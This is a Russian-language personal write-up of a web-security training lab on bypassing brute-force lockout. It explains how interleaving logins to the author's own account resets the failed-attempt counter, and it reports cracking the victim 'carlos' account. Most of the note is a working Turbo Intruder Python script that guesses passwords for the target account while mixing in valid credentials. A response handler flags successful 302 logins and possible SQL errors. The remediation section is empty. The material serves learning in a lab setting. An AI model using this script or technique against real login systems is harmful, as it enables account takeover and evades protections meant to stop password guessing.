


# обход защиты против бут форса (обход защиты против подбора паролей)

способы сайта противостоять  # brute-force

- Блокировка учетной записи, к которой удаленный пользователь пытается получить доступ, если он делает слишком много неудачных попыток входа в систему
- Блокировка IP-адреса удаленного пользователя, если он делает слишком много попыток входа в систему в быстрой последовательности

один из способов - это добавлять в пейлоад успешные попытки входа чтобы счетчик обновлялся

# Лаборатория: Сломанная защита от грубой силы, IP-блок

- Ваши учетные данные:`wiener:peter`
- Имя пользователя жертвы:`carlos`

нужно украсть пароль  carlos 

заметил что сайт полностью блокирует любые запросы когда я пытаюсь залогиниться и X-Forwarded-For: 1213 не помогает уже

после неудачных нескольких попыток приходится ждать некоторое время чтобы была возможность потом просто войти в свой акк чтобы сбросить счетчик неудачных попыток





создал скрипт который подбирал пароли к логину цели carlos и каждый 3 запрос делал в логином и паролем от существующего аккаунта

и по скринам видно как 302 ответ был при подстновке данных на вход в существующий аккаунт и также 302 ответ пришел при пароле taylor для карлоса, использовал taylor и вошел в аккаунт карлоса!

# СУТЬ
нужно укрась аккаунт жертвы есть ник
просто подбором не получается это сделать
так как сайт блокирует все запросы на 1 мин 
но после успешного входа - счетчик попыток входа обнуляется

создал скрипт который подставлял пароли к нужному логину
но каждый 3 запрос вставлял в логин и пароль существующие данные моего реального аккаунта

==выполнено==

```python
import random

import time

try:

    from urllib.parse import quote

except ImportError:

    from urllib import quote

def queueRequests(target, wordlists):

    MIN_DELAY = 120

    MAX_DELAY = 200

    # Используем только ОДИН запрос на соединение и 1 соединение

    engine = RequestEngine(endpoint=target.endpoint,

                          concurrentConnections=1,

                          requestsPerConnection=1,  # Ключевое изменение!

                          pipeline=False)

    # Основной список паролей для %s

    payloads = [

        "123456",

        "password"

    ]

    # === ШАГ 0: ВСЕГДА ПЕРВЫМ ЗАПРОСОМ ИЗВЕТСНЫЙ ЛОГ+ПАР- wiener:peter ===

    encoded_first_user = quote("wiener", safe='')

    encoded_first_pass = quote("peter", safe='')

    first_request = target.req.replace('%ss', encoded_first_user)

    first_request = first_request.replace('%s', encoded_first_pass)

    first_delay = random.randint(MIN_DELAY, MAX_DELAY)

    time.sleep(first_delay / 1000.0)

    engine.queue(first_request)

    # Счётчик запросов (уже отправили 1 запрос)

    request_counter = 1  # Начинаем с 1, т.к. первый запрос уже отправлен

  

    for password_payload in payloads:

        request_counter += 1

        # === ШАГ 1: Каждый 3-й запрос - дополнительный wiener:peter ===

        if request_counter % 2 == 0:  # КАЖДАЯ ЧЕТНАЯ 2 ПОПЫТКА - ПОДСТАВЛЮ ВАЛИДНЫЕ ЛОГ+ПАР

            encoded_username_special = quote("wiener", safe='')

            encoded_password_special = quote("peter", safe='')

            special_request = target.req.replace('%ss', encoded_username_special)

            special_request = special_request.replace('%s', encoded_password_special)

            delay_special = random.randint(MIN_DELAY, MAX_DELAY)

            time.sleep(delay_special / 1000.0)

            engine.queue(special_request)

        # === ШАГ 2: ОСНОВНОЙ ЗАПРОС (всегда отправляется) ===

        # username ВСЕГДА = "carlos" для основного запроса

        encoded_username_main = quote("carlos", safe='')

        encoded_password_main = quote(password_payload, safe='')

        main_request = target.req.replace('%ss', encoded_username_main)

        main_request = main_request.replace('%s', encoded_password_main)

        delay_main = random.randint(MIN_DELAY, MAX_DELAY)

        time.sleep(delay_main / 1000.0)

        engine.queue(main_request)

  

  

def handleResponse(req, interesting):

    if interesting:

        req.label = "INTER"

        table.add(req)

    elif req.status == 500:

        response_text = req.response.lower()

        sql_indicators = ['sql', 'syntax', 'mysql', 'database', 'error', 'exception', 'warning']

        if any(indicator in response_text for indicator in sql_indicators):

            req.label = "POTENTIAL SQLi"

            table.add(req)

    elif req.status == 302:  # Добавил проверку на успешный логин

        req.label = "SUCCESS_302"

        table.add(req)
```


# УСТРАНЕНИЕ ПРОБЛЕМЫ